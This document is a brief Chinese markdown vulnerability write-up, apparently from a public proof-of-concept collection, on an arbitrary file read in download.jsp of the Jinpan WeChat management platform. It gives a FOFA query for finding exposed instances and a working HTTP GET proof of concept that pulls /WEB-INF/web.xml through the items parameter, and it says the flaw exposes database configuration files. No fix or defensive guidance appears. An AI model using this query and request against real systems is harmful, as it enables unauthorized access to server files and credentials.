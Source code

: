 # 金盘微信管理平台download.jsp任意文件读取漏洞

金盘微信管理平台download.jsp任意文件读取漏洞，通过该漏洞读取数据库配置文件等

## fofa

```javascript
title=="微信管理后台"
```

## poc

```javascript
GET /mobile/pages/admin/tools/file/download.jsp?items=/WEB-INF/web.xml HTTP/1.1
Host: 
```

![image-20241021172734743](https://sydgz2-1310358933.cos.ap-guangzhou.myqcloud.com/pic/202410211727896.png)